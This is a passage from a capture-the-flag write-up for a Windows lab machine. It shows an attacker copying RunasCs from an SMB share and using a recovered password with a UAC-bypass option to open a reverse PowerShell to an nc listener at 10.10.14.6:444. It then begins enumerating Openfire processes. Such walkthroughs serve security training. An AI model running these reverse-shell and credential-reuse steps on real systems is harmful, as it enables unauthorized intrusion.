 ### RunasCs

I’ll use the [RunasCs](https://github.com/antonioCoco/RunasCs) tool to get a reverse shell as openfire. I’ll use my SMB share to copy it into `ProgramData` for staging:

```

PS C:\programdata> copy \\10.10.14.6\share\RunasCs.exe r.exe

```

Now I’ll run it:

```

PS C:\programdata> .\r.exe openfire 'HotP!fireguard' powershell -r 10.10.14.6:444 --logon-type 5 --bypass-uac

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-77180$\Default
[+] Async process 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' with pid 2296 created in background.

```

At `nc`, I get a shell:

```

oxdf@hacky$ rlwrap -cAr nc -lnvp 444
Listening on 0.0.0.0 444
Connection received on 10.10.11.16 63923
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Windows\system32> whoami
solarlab\openfire

```

## Shell as openfire via CVE + Plugin

### Enumeration

I’ve already noticed there’s an OpenFire account. There’s also processes in the `tasklist` output:

```

PS C:\> tasklist | findstr -i openfire
openfire-service.exe          2928                            0      4,936 K
openfire-service.exe          3084                            0    179,956 K

```
